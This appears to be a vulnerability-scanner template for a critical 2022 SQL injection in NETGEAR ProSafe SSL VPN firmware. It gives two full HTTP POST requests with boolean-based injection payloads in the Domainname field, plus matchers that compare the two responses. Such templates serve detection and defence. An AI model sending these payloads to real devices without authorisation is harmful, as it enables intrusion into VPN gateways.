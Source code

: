 **Type - status**

- status
  1. 400

---

# NETGEAR ProSafe SSL VPN firmware - SQL Injection

## Description

- NETGEAR ProSafe SSL VPN multiple firmware versions were discovered to contain a SQL injection vulnerability via USERDBDomains.Domainname at cgi-bin/platform.cgi.

- severity - critical
- tags - cve,cve2022,sqli,netgear,router

## Requests

### Step - 1

```
POST /scgi-bin/platform.cgi HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=utf-8

thispage=index.htm&USERDBUsers.UserName=NjVI&USERDBUsers.Password=&USERDBDomains.Domainname=geardomain'+AND+'5434'%3d'5435'+AND+'MwLj'%3d'MwLj&button.login.USERDBUsers.router_status=Login&Login.userAgent=MDpd

```

### Step - 2

```
POST /scgi-bin/platform.cgi HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=utf-8

thispage=index.htm&USERDBUsers.UserName=NjVI&USERDBUsers.Password=&USERDBDomains.Domainname=geardomain'+AND+'5434'%3d'5434'+AND+'MwLj'%3d'MwLj&button.login.USERDBUsers.router_status=Login&Login.userAgent=MDpd

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_1, "User authentication Failed")
  2. contains(body_2, "User Login Failed for SSLVPN User.")
- condition - and

---